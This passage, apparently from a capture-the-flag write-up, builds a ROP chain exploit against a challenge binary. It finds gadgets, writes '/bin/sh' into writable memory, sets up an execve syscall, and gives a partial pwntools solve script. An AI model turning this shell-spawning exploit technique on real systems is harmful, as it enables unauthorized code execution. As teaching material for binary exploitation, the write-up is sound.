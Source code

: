 (P.S. you can use other ptr gadgets as well, as long as it does not disrupt program flow and does what we need).

```sh
$> ROPgadget --binary chall | grep ": mov qword ptr \[rsi\], rax ; ret"
0x000000000047f3c1 : mov qword ptr [rsi], rax ; ret
```

FYI, `QWORD` just means 64-bit unsigned int. But more importantly, we need the pointer instruction.

### Step 4
Let's move the shell into the writable location. Since we are moving value `rax` into `rsi` pointer, we need the ROP chain to look like this:

```sh
rax: /bin/sh\x00 (need the null byte)
rsi: writable location (0x6b6000)
move rax to rsi ptr gadget
```

in the solve script it will look like this:

```py
# address to move /bin/sh into writable memory
vmmap = 0x6b6000 # found from vmmap
movptr = 0x47f3c1 # mov qword ptr [rsi], rax ; ret

payload = b'A' * 120

# ROP chain to move /bin/sh
payload += p64(pop_rax) +  b'/bin/sh\x00'
payload += p64(pop_rsi) + p64(vmmap)
payload += p64(movptr)
```

### Step 5
Now that we have the shell written in memory, we can perform the syscall. Refer to this again.

```sh
rax: 0x3b or 59 (dec)
rdi: ptr location of `/bin/sh`
rdx: 0
rsi: 0
syscall
```

Let's setup our ROP chain

```py
payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdi) + p64(vmmap)
payload += p64(pop_rdx) + p64(0) 
payload += p64(pop_rsi) + p64(0)
```

### Final script
```py
from pwn import *

p = remote("IP", PORT)

# Gadgets
pop_rax = 0x4005af # pop rax ; ret
pop_rdi = 0x4006a6 # pop rdi ; ret
pop_rsi = 0x410003 # pop rsi ; ret
pop_rdx = 0x44b446 # pop rdx ; ret
syscall = 0x40127c # syscall


```